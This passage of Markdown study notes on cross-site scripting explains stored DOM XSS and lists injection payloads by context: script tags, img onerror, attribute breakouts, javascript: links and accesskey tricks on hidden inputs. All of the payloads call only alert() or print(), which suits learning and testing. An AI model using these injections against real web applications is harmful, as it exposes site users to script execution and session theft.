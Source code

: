 * In a **stored DOM XSS** vulnerability, the server stores data from one request and includes it in a later response. A script in the later response processes this data unsafely in a sink.

```javascript
element.innerHTML = comment.author
```

---

## XSS contexts

### Between HTML tags

```html
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```

{{< hint style=notes >}}
**Note**: understand how a payload works

* `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
{{< /hint >}}

### In HTML tag attributes

* Terminate the attribute value, close the tag, and introduce a new one.

    ```html
    "><script>alert(document.domain)</script>
    ```

* If angle brackets are blocked or encoded, introduce a new attribute that creates a scriptable context.

    ```html
    " autofocus onfocus=alert(document.domain) x="
    ```

* If XSS context is into the href attribute of an anchor tag, use the javascript pseudo-protocol to execute script

    ```html
    <a href="javascript:alert(document.domain)">
    ```

* Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible

    ```html
    <input type="hidden" accesskey="X" onclick="alert(1)">
    ```

    ```html
    <link rel="canonical" accesskey="X" onclick="alert(1)" />
    ```
